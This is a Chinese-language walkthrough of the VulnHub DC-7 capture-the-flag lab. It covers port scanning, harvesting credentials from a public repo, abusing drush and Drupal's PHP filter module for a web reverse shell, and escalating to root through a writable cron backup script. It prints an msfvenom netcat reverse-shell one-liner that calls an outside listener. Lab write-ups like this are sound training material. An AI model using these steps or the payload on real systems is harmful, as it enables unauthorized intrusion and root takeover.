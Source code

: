 # DC 7

下载地址：https://download.vulnhub.com/dc/DC-7.zip

## 实战演练

靶场IP地址:`192.168.32.166`

![image-20220713134426055](../../.gitbook/assets/image-20220713134426055.png)

扫描对外端口

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 192.168.32.166                                                                                                                                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 01:44 EDT
Nmap scan report for 192.168.32.166
Host is up (0.00068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:85:DD:9B (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

浏览器访问80端口,发现web框架是`Drupal`

![image-20220713134931984](../../.gitbook/assets/image-20220713134931984.png)

扫描drupal没有发现什么东西

```
┌──(root💀kali)-[/opt/droopescan-master]
└─# docker run  droopescan scan drupal  -u  http://192.168.32.166
[+] No plugins found.                                                           

[+] Themes found:
    startupgrowth_lite http://192.168.32.166/themes/startupgrowth_lite/
        http://192.168.32.166/themes/startupgrowth_lite/LICENSE.txt

[+] Possible version(s):
    8.7.0
    8.7.0-alpha1
    8.7.0-alpha2
    8.7.0-beta1
    8.7.0-beta2
    8.7.0-rc1
    8.7.1
    8.7.10
    8.7.11
    8.7.12
    8.7.13
    8.7.14
    8.7.2
    8.7.3
    8.7.4
    8.7.5
    8.7.6
    8.7.7
    8.7.8
    8.7.9

[+] Possible interesting urls found:
    Default admin - http://192.168.32.166/user/login

[+] Scan finished (0:02:01.475158 elapsed)
```

Google搜索`@DC7USER`,发现一个源码仓库

![image-20220713135743698](../../.gitbook/assets/image-20220713135743698.png)

在config.php找到一个用户和密码

```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20220713135805156](../../.gitbook/assets/image-20220713135805156.png)

使用这个密码进行SSH登录,发现可以登录成功

![image-20220713135904797](../../.gitbook/assets/image-20220713135904797.png)

查看`mbox`文件

```
dc7user@dc-7:~$ cat mbox 

From root@dc-7 Thu Aug 29 17:00:22 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:00:22 +1000
Received: from root by dc-7 with local (Exim 4.89)
        (envelope-from <root@dc-7>)
        id 1i3EPu-0000CV-5C
        for root@dc-7; Thu, 29 Aug 2019 17:00:22 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3EPu-0000CV-5C@dc-7>
Date: Thu, 29 Aug 2019 17:00:22 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

```

发现一个定时计划

```
dc7user@dc-7:~$ cat /opt/scripts/backups.sh
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz

dc7user@dc-7:~$ ls -al /opt/scripts/backups.sh
-rwxrwxr-x 1 root www-data 520 Aug 29  2019 /opt/scripts/backups.sh
```

上面分析表明，脚本每三分钟被root执行一次，而www-data的用户是有写权限的，所以我们需要想办法获得这个权限，写shell反弹。

于是，我在 google 上查看了 drush 命令，发现了一个用于更改帐户密码的命令。

```
dc7user@dc-7:/var/www/html$ ls
autoload.php  composer.json  composer.lock  core  example.gitignore  index.php  INSTALL.txt  LICENSE.txt  modules  profiles  README.txt  robots.txt  sites  themes  update.php  vendor  web.config
dc7user@dc-7:/var/www/html$ drush user-password admin --password=test
Changed password for admin  
```

访问管理控制台后，是时候通过在其中注入恶意内容来利用 Web 应用程序了。直接将恶意脚本编写为网页内容不会给我们应用程序的反向外壳，但经过一段时间后，我们得出结论，它需要 PHP 模块。因此，我们通过**管理>扩展>列表>安装新模块来安装新模块。**

![image-20220713173754527](../../.gitbook/assets/image-20220713173754527.png)

您可以从下面的 URL 下载 Drupal 的 PHP 包并上传 tar 文件以安装新模块。

> https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

![image-20220713173950675](../../.gitbook/assets/image-20220713173950675.png)

安装完成

![image-20220713174023721](../../.gitbook/assets/image-20220713174023721.png)

再次，移动到Manage > Extend >filters并启用 PHP filters 的复选框。

![image-20220713174133918](../../.gitbook/assets/image-20220713174133918.png)

现在使用 Pentest Monkey PHP 脚本，即"reverse shell backdoor.php"作为基本内容注入。不要忘记添加"侦听 IP 和端口"以获得反向连接。继续将"文本格式更改为 PHP"并启用发布复选框。保持 netcat 监听器开启，以便接收传入的 shell。

一切设置正确后，单击预览按钮，您将通过 netcat 获得反向连接。

![image-20220713174647712](../../.gitbook/assets/image-20220713174647712.png)

![image-20220713174729070](../../.gitbook/assets/image-20220713174729070.png)

伟大的！！我们的 netcat 会话是 www-data，如果您检查 /opt/scripts/backup.sh 的权限，您会注意到 www-data 拥有访问或修改此文件的所有权限。因此，我们可以通过修改源文件的内容来滥用用户文件的权限来提升权限。

生成反弹shell

```
┌──(root💀kali)-[/opt/droopescan-master]
└─# msfvenom -p cmd/unix/reverse_netcat lhost=192.168.32.130 lport=9999 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 100 bytes
mkfifo /tmp/yvixve; nc 192.168.32.130 9999 0</tmp/yvixve | /bin/sh >/tmp/yvixve 2>&1; rm /tmp/yvixve
```

添加shell到计划任务

![image-20230208134243265](../../.gitbook/assets/image-20230208134243265.png)
